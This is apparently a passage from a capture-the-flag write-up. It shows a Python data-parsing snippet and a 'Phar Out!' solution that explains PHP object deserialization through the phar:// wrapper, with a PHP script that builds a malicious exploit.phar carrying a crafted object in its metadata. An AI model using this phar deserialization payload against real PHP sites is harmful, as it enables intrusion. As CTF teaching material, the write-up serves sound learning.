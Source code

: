 ```python
       '["age":28, "user_name":"Shoshana Bickett", "Group":"Yellow"],["age":69, "user_name":"Madeleine Swallow", ' \
       '"Group":"Green"],["age":41, "user_name":"Buddy Etter", "Group":"Black"],+++,God fire,["age":26, ' \
       '"user_name":"Carlene Caulder", "Group":"Green"],["age":43, "user_name":"Napoleon Peay", "Group":"Purple"],' \
       '["age":44, "user_name":"Noemi Constant", "Group":"Green"] '
group_name = data.split('|')[0]
blob = data.split('|')[1]
result_names_list = ParseNamesByGroup(blob, group_name)
print(result_names_list)
```

---

## Phar Out! 125
As the name suggests, this challenge has something to do with well known vulnerability related with PHP object deserialisation through phar (PHP Archive) stream wrapper.
We are given the source code of the website and after examining it, the solution becomes quite clear:
1. Website lets you to upload anything and computes MD5 for it. When computing, it accesses upload throuh file:// stream wrapper *unless you set s parameter to p*. In that case it uses phar:// and that's what we want. Also note that index.php has include("wrapper.php");
2. After looking into two other files, it is clear that we want Doit() object to be created, because that would cause flag to be printed.
3. We create an instance of Wrapper() class and set it's private variable through reflection to something. Then we add this instance to minimal phar file which then gets uploaded to the site together with request's parameter s set to p. And we get the flag.

```php
<?php
include("wrapper.php");

$phar = new Phar('exploit.phar');

// add a dummy file to stay within phar specifications
$phar->addFromString("test.txt", "test");

$wrapperObj = new Wrapper();

// Set private variable
$reflection = new \ReflectionProperty(get_class($wrapperObj), 'doit');
$reflection->setAccessible(true);
$reflection->setValue($wrapperObj, 'value');

// add our object
$phar->setMetadata($wrapperObj);
?> 
```

## Is the king in check? 200
The solution is too long, so it can be found here -> [solution](https://gist.github.com/vykintazo/b2f30db19ef38e261308d831b31496f3)

---